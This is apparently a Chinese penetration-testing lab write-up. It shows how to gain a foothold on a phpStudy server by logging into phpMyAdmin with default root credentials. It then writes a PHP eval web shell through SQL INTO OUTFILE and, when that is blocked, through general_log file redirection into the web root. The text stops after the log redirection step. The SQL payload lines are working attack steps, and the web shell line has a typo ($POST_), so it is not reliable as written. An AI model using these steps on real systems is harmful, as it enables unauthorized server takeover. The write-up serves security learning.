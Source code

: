 这里跳过配置。
win7 ip：172.16.170.43
kali ip：172.16.170.38

## 一、访问目标服务器
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849612762-7786f8dd-895e-49f1-9d2c-52254cbe1626.png#averageHue=%23ccba9c&clientId=u531c24f4-2300-4&from=paste&height=220&id=uccb9d875&name=image.png&originHeight=275&originWidth=1127&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97011&status=done&style=none&taskId=ufd4fd253-b6fc-4cd1-b036-a85fe956b8e&title=&width=901.6)
访问目标网页是一个php study探针
> 一个很有用的信息网页。可以在这里看到目标服务器的域名和IP地址，网站根目录的绝对路径和探针路径
> ~~php探针是我们下载它的登陆器，进行本地连接，看登陆器端口和其服务器的ip地址，直接在网站去访问它的服务器ip地址，得到的页面~~


![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849669976-37f61b02-c62b-414a-a0c0-3ed815837413.png#averageHue=%23ccba9d&clientId=u531c24f4-2300-4&from=paste&height=134&id=uae3bc169&name=image.png&originHeight=168&originWidth=839&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=42255&status=done&style=none&taskId=u2de9b9e1-2ac5-40f7-bb81-33c27976894&title=&width=671.2)
在这里我们看到有一个mysql数据库的检测，默认用户和密码为root

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849803540-07a4960a-71ed-4307-82d7-37ad0e626cff.png#averageHue=%23282c38&clientId=u531c24f4-2300-4&from=paste&height=465&id=u7cecd3f2&name=image.png&originHeight=581&originWidth=696&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=150210&status=done&style=none&taskId=u2565cc3d-68cc-42e0-ad28-89082a506b9&title=&width=556.8)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849877002-f1359793-1892-46fd-a580-eb69ccd779c8.png#averageHue=%23f7f6f5&clientId=u531c24f4-2300-4&from=paste&height=282&id=u91b97894&name=image.png&originHeight=352&originWidth=408&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25010&status=done&style=none&taskId=ufe6dbaf5-bf83-4aac-b0e7-a2c1a3a42d3&title=&width=326.4)
~~由于存在php探针，所以大概率会存在phpmyadmin的登录页面~~
这里通过扫描，发现了phpmyadmin登录页面
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849896306-5f661427-4509-4b16-bc7d-100b1265ee25.png#averageHue=%23e6e5e4&clientId=u531c24f4-2300-4&from=paste&height=306&id=ub4409976&name=image.png&originHeight=382&originWidth=1045&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=113902&status=done&style=none&taskId=uca8253cd-3129-4bcb-a99e-4a31b1e0e0c&title=&width=836)
通常用户和密码默认都是root，这里直接通过root进入界面，里面可以写sql语言

## 二、sql注入shell
这里因为我们通过之前的php探针知道了网页的绝对路径，可以尝试在phpmyadmin网页下，通过sql语句的 into outfile或者into dumpfile将shell写入路径文件下。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850128078-f16085b9-0562-4b2e-a112-3a8cff4dd2d2.png#averageHue=%23d4c9a9&clientId=u531c24f4-2300-4&from=paste&height=134&id=u48816e86&name=image.png&originHeight=168&originWidth=998&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=48723&status=done&style=none&taskId=ucf26442f-6a39-4d21-9f46-64c3b98a42d&title=&width=798.4)
```sql
select '<?php @eval($POST_['shell']); ?>' into outfile 'C:/php/WWW/shell.php'
```
这里写入shell发现报错！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850155493-813e7f8d-bd96-46f7-9f23-1dc79671d577.png#averageHue=%23f7f9ee&clientId=u531c24f4-2300-4&from=paste&height=210&id=ub89da9e8&name=image.png&originHeight=263&originWidth=950&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=39970&status=done&style=none&taskId=u505e9d99-c957-4ed1-b853-2925b68b125&title=&width=760)
```sql
show variables like '%secure_%'
```
这里通过查看secure-file-priv发现为null，说明mysql禁止导入导出操作

这样的话，我们只能试着去试试mysql的日志文件是否能够使用
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678850310209-f18c6cc9-46b0-43a9-9d02-025e2435fbfd.png#averageHue=%23e6f2a2&clientId=u531c24f4-2300-4&from=paste&height=193&id=u6d9c7753&name=image.png&originHeight=241&originWidth=1012&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=55229&status=done&style=none&taskId=u1c03bfd5-8ae6-4948-ae26-f6e144f25c3&title=&width=809.6)
```sql
show global variables like '%general_%'
```
通过查询，发现全局日志文件是关闭的，且也知道了绝对路径。


![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678179270934-c362caa8-45de-4c0b-859a-65622280eccd.png#averageHue=%23eeedec&clientId=u27e7fc2b-7558-4&from=paste&height=61&id=uff4cafa5&name=image.png&originHeight=76&originWidth=560&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11782&status=done&style=none&taskId=uacdf3dc4-bec3-440e-bb66-e41c1a0342c&title=&width=448)
```sql
set global general_log = on
set global general_log_file = 'C:/phpStudy/WWW/shell.php'
```
> 更改日志保存路径！注意不要出现文件名错误！
